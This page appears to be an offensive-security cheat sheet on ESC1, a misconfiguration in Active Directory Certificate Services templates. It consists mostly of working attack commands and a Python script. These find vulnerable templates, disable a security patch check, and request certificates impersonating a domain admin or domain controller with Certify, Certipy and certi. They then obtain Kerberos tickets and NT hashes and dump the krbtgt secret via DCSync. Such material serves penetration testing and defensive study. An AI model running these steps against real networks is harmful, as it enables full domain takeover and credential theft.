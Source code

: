 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Disable the KB5014754 Patch

Disable `szOID_NTDS_CA_SECURITY_EXT` extension checking (requires CertSvc restart):

```
Cmd > certutil.exe -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
```




## Exploit



### Certutil

- [https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee](https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee)



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template VulnTemplate -upn administrator@megacorp.local -dc-ip 192.168.1.11
$ proxychains4 certipy req -u 'PC01$@megacorp.local' -aes <AES_KEY> -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```

Request TGT providing the certificate and get the corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```

Manually via web enrollment at `/certsrv/certrqxt.asp`:

{% code title="certrqxt2pfx.py" %}
```python
from certipy.lib.certificate import (
    create_csr,
    create_pfx,
    csr_to_der,
    der_to_pem,
    pem_to_cert,
    cert_id_to_parts,
    get_identifications_from_certificate,
    get_object_sid_from_certificate
)
from certipy.lib.formatting import print_certificate_identifications

username = 'j.doe@megacorp.local'
alt_upn  = 'DC01$@megacorp.local'
alt_sid  = 'S-1-5-21-XXXXXXXXX-XXXXXXXXXX-XXXXXXXXX-1000'
template = 'ESC1'

csr, key = create_csr(
    username,
    alt_dns=None,
    alt_upn=alt_upn,
    alt_sid=alt_sid,
    key=None,
    key_size=2048,
    subject=None,
    renewal_cert=None,
    application_policies=[]
)

attributes = '\n'.join([f'CertificateTemplate:{template}', f'SAN:upn={alt_upn}'])

print(der_to_pem(csr_to_der(csr), "CERTIFICATE REQUEST"))
print(attributes)

# https://CA01.megacorp.local/certsrv/certnew.cer?ReqID=1337&Enc=b64
pem = b'''-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----'''

cert = pem_to_cert(pem)

identifications = get_identifications_from_certificate(cert)
print_certificate_identifications(identifications)

object_sid = get_object_sid_from_certificate(cert)
if object_sid is not None:
    print(f'[*] Certificate object SID is {repr(object_sid)}')
else:
    print('[!] Certificate has no object SID')

out, _ = cert_id_to_parts(identifications)
if out is None:
    out = username
out = out.rstrip('$').lower()

with open(f'{out}.pfx', 'wb') as f:
    f.write(create_pfx(key, cert))

print(f'[+] Saved certificate and private key to {out}.pfx')
```
{% endcode %}



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
